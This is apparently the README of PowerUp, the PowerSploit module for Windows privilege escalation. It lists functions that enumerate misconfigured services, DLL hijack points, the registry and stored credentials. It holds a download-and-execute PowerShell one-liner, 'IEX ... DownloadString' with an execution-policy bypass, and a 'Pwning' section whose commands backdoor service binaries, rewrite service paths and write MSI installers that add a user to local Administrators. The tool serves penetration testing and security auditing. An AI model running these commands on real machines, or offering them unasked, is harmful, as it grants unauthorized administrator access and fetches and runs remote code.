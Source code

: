 # PowerUp
PowerUp aims to be a clearinghouse of common Windows privilege escalation
vectors that rely on misconfigurations.

Running Invoke-AllChecks will output any identifiable vulnerabilities along
with specifications for any abuse functions. The -HTMLReport flag will also
generate a COMPUTER.username.html version of the report.

Author: @harmj0y
License: BSD 3-Clause
Required Dependencies: None
Optional Dependencies: None

URL: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

## Launching every tests
Two main possibilities:
1. From the PowerShell ISE or a PowerShell session with the right execution policy:
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString("https://github.com/PowerShellMafia/PowerSploit/raw/master/Privesc/PowerUp.ps1")
PS C:\> Invoke-AllChecks [-HTMLReport] [| Out-File -Encoding ASCII checks.txt]
```

2. From a cmd prompt:
```
C:\> powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/raw/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"
```

## Pwning
### Service executable permission or unquoted service path issues
1. Backup the service and create a backdoored one which will add <user> to the localgroup Administrators:
```
PS C:\> Write-ServiceEXE -ServiceName <service_name> -UserName <user> -Password <password>
```

2. Restart the service or reboot the machine
3. Restore the backup service:
```
PS C:\> Restore-ServiceEXE -ServiceName <service_name>
```

### Service permission issues
Stop the service, change the path name of the service with *net localgroup Administrators <user> /add* and restart:
```
PS C:\> Invoke-ServiceUserAdd -ServiceName <service_name> -UserName <user> -Password <password>
```

### AlwaysInstallElevated
Write out a custom .msi installer that add your user within the localgroup Administrators and run it elevated privileges:
```
PS C:\> Write-UserAddMSI
```

## More info (man)
Check-out the source code...

### Service Enumeration:
    Get-ServiceUnquoted                 -   returns services with unquoted paths that also have a space in the name
    Get-ModifiableServiceFile           -   returns services where the current user can write to the service binary path or its config
    Get-ModifiableService               -   returns services the current user can modify
    Get-ServiceDetail                   -   returns detailed information about a specified service

### Service Abuse:
    Invoke-ServiceAbuse                 -   modifies a vulnerable service to create a local admin or execute a custom command
    Write-ServiceBinary                 -   writes out a patched C# service binary that adds a local admin or executes a custom command
    Install-ServiceBinary               -   replaces a service binary with one that adds a local admin or executes a custom command
    Restore-ServiceBinary               -   restores a replaced service binary with the original executable

### DLL Hijacking:
    Find-ProcessDLLHijack               -   finds potential DLL hijacking opportunities for currently running processes
    Find-PathDLLHijack                  -   finds service %PATH% DLL hijacking opportunities
    Write-HijackDll                     -   writes out a hijackable DLL

### Registry Checks:
    Get-RegistryAlwaysInstallElevated   -   checks if the AlwaysInstallElevated registry key is set
    Get-RegistryAutoLogon               -   checks for Autologon credentials in the registry
    Get-ModifiableRegistryAutoRun       -   checks for any modifiable binaries/scripts (or their configs) in HKLM autoruns

### Miscellaneous Checks:
    Get-ModifiableScheduledTaskFile     -   find schtasks with modifiable target files
    Get-UnattendedInstallFile           -   finds remaining unattended installation files
    Get-Webconfig                       -   checks for any encrypted web.config strings
    Get-ApplicationHost                 -   checks for encrypted application pool and virtual directory passwords
    Get-SiteListPassword                -   retrieves the plaintext passwords for any found McAfee's SiteList.xml files
    Get-CachedGPPPassword               -   checks for passwords in cached Group Policy Preferences files

### Other Helpers/Meta-Functions:
    Get-ModifiablePath                  -   tokenizes an input string and returns the files in it the current user can modify
    Get-CurrentUserTokenGroupSid        -   returns all SIDs that the current user is a part of, whether they are disabled or not
    Add-ServiceDacl                     -   adds a Dacl field to a service object returned by Get-Service
    Set-ServiceBinPath                  -   sets the binary path for a service to a specified value through Win32 API methods
    Test-ServiceDaclPermission          -   tests one or more passed services or service names against a given permission set
    Write-UserAddMSI                    -   write out a MSI installer that prompts for a user to be added
    Invoke-AllChecks                    -   runs all current escalation checks and returns a report
